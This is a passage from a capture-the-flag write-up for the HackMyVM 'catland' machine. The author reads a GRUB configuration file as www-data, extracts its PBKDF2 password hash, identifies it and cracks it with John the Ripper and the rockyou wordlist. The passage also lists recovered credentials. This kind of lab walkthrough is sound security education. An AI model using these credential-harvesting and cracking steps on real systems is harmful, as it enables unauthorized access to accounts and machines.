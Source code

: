 The `users` table confirmed the `laura:Laura_2008` credentials found earlier for the web panel. The `comment` table contained a hint: `change grub password`. This suggested a potential path for root escalation or further user access.

### 6. Further User Access: Cracking GRUB Password

Following the hint from the `comment` table, I checked the GRUB configuration file for a password hash.

```shellscript
www-data@catland:/var/www/admin$ cat /boot/grub/grub.cfg
# ... (truncated output) ...
### BEGIN /etc/grub.d/01_password ###
set superusers="root"
password_pbkdf2 root grub.pbkdf2.sha512.10000.CAEBC99F7ABA2AC4E57FFFD14649554857738C73E8254222A3C2828D2B3A1E12E84EF7BECE42A6CE647058662D55D9619CA2626A60DB99E2B20D48C0A8CE61EB.6E43CABE0BC795DC76072FC7665297B499C2EB1B020B5751EDC40A89668DBC73D9F507517474A31AE5A0B45452DAD9BD77E85AC0EFB796A61148CC450267EBBC
### END /etc/grub.d/01_password ###
# ... (truncated output) ...
```

I extracted the GRUB password hash: `grub.pbkdf2.sha512.10000.CAEBC99F7ABA2AC4E57FFFD14649554857738C73E8254222A3C2828D2B3A1E12E84EF7BECE42A6CE647058662D55D9619CA2626A60DB99E2B20D48C0A8CE61EB.6E43CABE0BC795DC76072FC7665297B499C2EB1B020B5751EDC40A89668DBC73D9F507517474A31AE5A0B45452DAD9BD77E85AC0EFB796A61148CC450267EBBC`.

I saved this hash to a file named `hash.txt` on my Kali machine and used `hashid` to identify its type:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ echo "grub.pbkdf2.sha512.10000.CAEBC99F7ABA2AC4E57FFFD14649554857738C73E8254222A3C2828D2B3A1E12E84EF7BECE42A6CE647058662D55D9619CA2626A60DB99E2B20D48C0A8CE61EB.6E43CABE0BC795DC76072FC7665297B499C2EB1B020B5751EDC40A89668DBC73D9F507517474A31AE5A0B45452DAD9BD77E85AC0EFB796A61148CC450267EBBC" > hash.txt
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ hashid 'grub.pbkdf2.sha512.10000.CAEBC99F7ABA2AC4E57FFFD14649554857738C73E8254222A3C2828D2B3A1E12E84EF7BECE42A6CE647058662D55D9619CA2626A60DB99E2B20D48C0A8CE61EB.6E43CABE0BC795DC76072FC7665297B499C2EB1B020B5751EDC40A89668DBC73D9F507517474A31AE5A0B45452DAD9BD77E85AC0EFB796A61148CC450267EBBC'
Analyzing 'grub.pbkdf2.sha512.10000.CAEBC99F7ABA2AC4E57FFFD14649554857738C73E8254222A3C2828D2B3A1E12E84EF7BECE42A6CE647058662D55D9619CA2626A60DB99E2B20D48C0A8CE61EB.6E43CABE0BC795DC76072FC7665297B499C2EB1B020B5751EDC40A89668DBC73D9F507517474A31AE5A0B45452DAD9BD77E85AC0EFB796A61148CC450267EBBC'
[+] GRUB 2
```

The hash was identified as GRUB 2. I then used `john the ripper` with the `rockyou.txt` wordlist to crack it:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
# ... (truncated output) ...
berbatov         (?)
1g 0:00:00:57 DONE (2025-07-23 18:47) 0.01743g/s 522.7p/s 522.7c/s 522.7C/s candy15..axelito
```

